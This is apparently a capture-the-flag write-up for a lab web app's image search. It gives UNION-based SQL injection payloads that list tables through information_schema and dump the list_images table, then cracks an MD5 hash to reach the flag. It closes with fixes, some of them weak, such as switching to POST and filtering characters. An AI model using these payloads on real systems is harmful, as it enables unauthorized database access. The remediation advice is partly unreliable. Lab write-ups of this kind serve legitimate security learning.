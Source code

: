 # 05-SQL_Image_Search

The image search is vulnerable to sql injections

# The approach

1.Go to http://192.168.101.204/?page=searching
2.On the search field, type `1 AND 1=1`and press search button 

# The Exploit #
- Type this union command on the filed: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database (). this returns table name which is list_images.

- type on the field -1 union select NULL, concat (id, url, title, comment) from list_images. this returns  images from the table.

- from the results you get ( " If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 " decrypt code using MD5 decrypt, then run sha256 on lowercased password: flag is result )

- copy this 1928e8083cf461a51303633093573c46 to a md5 decoder then get the albatroz result to sha256 to get the flag.


## The solution
- Use prepared statements in the backend to prevent sql injections 
- Send form as post request
- try and catch methods should prevent charecters like (', <, ", ?) images shouldnt begin with that type of name.

### Resources

https://www.md5online.org/md5-decrypt.html  
sha256-hash-generator/ 